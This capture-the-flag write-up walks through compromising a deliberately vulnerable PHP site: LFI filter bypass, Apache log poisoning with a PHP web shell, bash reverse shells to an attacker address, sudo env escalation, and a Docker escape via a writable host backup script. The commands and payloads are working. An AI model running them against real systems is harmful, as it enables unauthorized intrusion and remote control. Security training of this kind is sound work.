








## TL;DR

This room features a PHP web app vulnerable to LFI through a weak filter on the `view` parameter (bypassable by including "dog" or "cat" anywhere in the path) combined with an uncontrolled `ext` parameter. I used this LFI to read the source code and `/etc/passwd`, then escalated to RCE via Apache log poisoning. From there, I exploited a sudo misconfiguration on `/usr/bin/env` (`sudo env /bin/bash`) to get root inside the Docker container, and finally escaped the container by abusing a world-writable backup script executed on the host.

## Recon

Let's start by scanning the target machine to map the available services.
First I ran an nmap scan for opened ports and services and second gobuster for available directories.

```bash
nmap -sC -A -p- [target_ip]
```

With nmap I only found 2 opened ports 80(HTTP) and 22(SSH).
HTTP server is running on version Apache/2.4.38. So I did some research on Google and found out that it's an obsolete version with a lot of vulnerabilities.
SSH also runs with OpenSSH 7.6p1, which has some notorious vulnerabilities in its arsenal.

```bash
gobuster dir -u http://[target_ip]/ -w /usr/share/wordlists/dirb/common.tx -x txt,php,html,sh
```

With gobuster I found some interesting directories:

- cat.php: there I found cat images that change at every page refresh
- cats: I was in front of a forbidden message saying "You don't have permission to access this resource."
- flag.php: a blank page opened

## Local File Inclusion (LFI) via view parameter

The index.php page is present like that: `http://[target_ip]/?view=dog`
The parameter `?view` is changeable.
If I change _dog_ for _cat_, cats are displayed. That's why I tried to put the null byte at the end to see how the server would respond and I got that message: `Warning: include(): Failed opening 'dog' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24  `

I tested the PHP filter wrapper to retrieve the index of the page.
The `php://filter` wrapper allows us to manipulate how files are read by applying filters, such as encoding content in Base64. This is useful for reading files in a format that’s easier to view, especially if they contain binary data.



That message suggests that without the word `dog` or `cat` in the url, we can't have the resource we're searching for.
My second approach was to include one of those words in the payload: `?view=php://filter/convert.base64-encode/resource=dog/../index`



I retrieved the index page, base64 encoded. After I decode it, I got inside the index and saw this PHP section:

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>

```

The file index.php retrieves a parameter `ext` in the URL `($_GET["ext"])`.
If not provided, it uses `.php` by default (you can define it yourself via the URL).
If a view parameter is provided, the code verifies that it contains the word `dog` or `cat` via `strpos()`. If it's the case, it does `include($_GET['view'].$ext)`
Else then the error message `"Sorry, only dogs or cats are allowed"` is displayed.

Since I could retrieve arbitrary files this way, and I had seen a `flag.php` while enumerating directories earlier, I tried it in the payload.



Jackpot, I got my first flag encoded in base64.

**Flag 1:** `REDACTED`

## Remote Code Execution (RCE) via LFI

Since `.php` is the default extension used, I only have to manipulate the `ext` parameter to access other files, by adding `&ext=` at the end of the payload/URL.

`http://[target_ip]/?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=`



I decoded the base64-encoded content and retrieved the /etc/passwd file.
Following the same approach, I retrieved the file `/var/log/apache2/access.log`.
For simplicity, I tried reading `access.log` without going through the `php://filter` wrapper (which I had used for `/etc/passwd`), to avoid having to decode base64 every time. It worked: the content displayed directly in plain text. This confirmed that this file is processed normally by `include()`, meaning that if I manage to inject PHP code into it, it will be executed upon inclusion. That's the basis for log poisoning.



I will perform log poisoning, following these steps:
**Step 1**: Verify the access at the logs
**Step 2:** Log poisoning
Each time we visit the application, apache keeps our `User-Agent` in this log file. We're going to replace our User-Agent with a PHP script and when PHP reads the log file, the script will execute.

```bash
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://[target_ip]/
```



**Step 3:** Execute system commands

Naturally the last step will be trying to find flags in the system.

`http://[target_ip]/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=find / -name "*flag*"`

The search revealed that flag 2 is there: `/var/www/flag2_QMW7JvaY2LvK.txt`
I displayed it on the web application by using this payload: `http://[target_ip]/?view=dog/../../../../var/www/flag2_QMW7JvaY2LvK.txt&ext=&cmd=cat`

**Flag 2:** `REDACTED`

## Reverse shell execution & privilege escalation

After flag 2, I figured I would get the remaining flags by obtaining a reverse shell. I opened a listener with `nc` and injected my payload in the web application.

```bash
nc -lvnp 4444
```

```bash
curl -G "http://[target_ip]/" \
  --data-urlencode "view=dog/../../../../var/log/apache2/access.log" \
  --data-urlencode "ext=" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/[attacker_ip]/4444 0>&1'"
```

I got a shell. First, I searched for flags but couldn't find flag 3 or flag 4. I then checked the sudo permissions of the www-data user and found that it could use /usr/bin/env with sudo.



After executing this command, I got root privileges and retrieved the flag 3.

```bash
sudo env /bin/bash

```

**Flag 3:** `REDACTED`

After getting root inside the container, I noticed we were in a Docker environment and started looking for scripts or scheduled jobs that could serve as an escape vector.



In /opt/backups, I found a backup.sh script. The script contained that:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container

```

I opened another listener on port 1234 and injected this payload into backup.sh:

```bash
echo "bash -c 'bash -i >& /dev/tcp/[attacker_ip]/1234 0>&1'" >> /opt/backups/backup.sh
```

I got a shell on the system running the Docker environment and found the fourth flag in the /root directory.

**Flag 4:** `REDACTED`

## Lessons Learned

This room was instructive for me since it features a solid, well-chained exploitation path.
I struggled a lot at the beginning. I could see the LFI was there, but didn't know how to exploit it properly. I spent close to an hour trying variations like `?view=../../../../etc/passwd` and other payloads that all failed. What actually unblocked me was reading the application's source code first, which revealed the exact filter logic I needed to bypass. Next time, I'll read the source code early instead of blindly testing traversal payloads. It would have saved me a lot of time.
I also didn't immediately recognize the signs of a containerized environment on my own. I had to check a couple of online writeups to confirm this was Docker. Next time, I should know what to look for (e.g. `.dockerenv`, unusual mount points, cgroup info) to identify this myself without external help.
